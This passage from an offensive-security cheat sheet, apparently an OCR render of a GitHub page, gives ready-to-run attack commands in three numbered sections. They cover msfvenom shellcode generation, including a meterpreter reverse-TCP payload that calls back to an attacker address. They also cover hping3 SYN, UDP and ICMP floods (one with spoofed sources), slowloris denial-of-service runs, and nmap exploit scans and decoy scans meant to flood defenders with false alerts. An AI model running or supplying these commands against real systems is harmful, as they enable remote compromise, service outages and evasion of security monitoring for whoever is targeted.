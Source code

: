 
## 19. ASCII Shellcode - Metasploit

```bash
# Generate ASCII-only shellcode
msfvenom -p windows/exec CMD=calc.exe -e x86/alpha_mixed -f c

# Linux ASCII shellcode
msfvenom -p linux/x86/exec CMD=/bin/sh -e x86/alpha_mixed -f c

# Advanced ASCII encoding
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/alpha_mixed BufferRegister=EAX -f raw
```

---

## 20. DoS Attack - Hping3

```bash
# SYN flood
hping3 -S --flood -V target.com

# UDP flood
hping3 --udp --flood target.com

# ICMP flood
hping3 --icmp --flood target.com

# Randomized source SYN flood
hping3 -S --flood --rand-source target.com
```

### Alternative - Slowloris

```bash
# Slowloris attack
slowloris target.com

# Custom parameters
slowloris -s 1000 -t 30 target.com

# HTTPS target
slowloris -p 443 --https target.com
```

---

## 21. False Positive Generation - Nmap

```bash
# Generate multiple false alerts
nmap -sS -O -A -T4 --script vuln target_range

# Trigger specific signatures
nmap --script http-sql-injection target.com

# Multiple vulnerability scans
nmap --script "exploit,vuln" target.com

# Generate noise with decoys
nmap -D RND:50 -sS target.com
```

---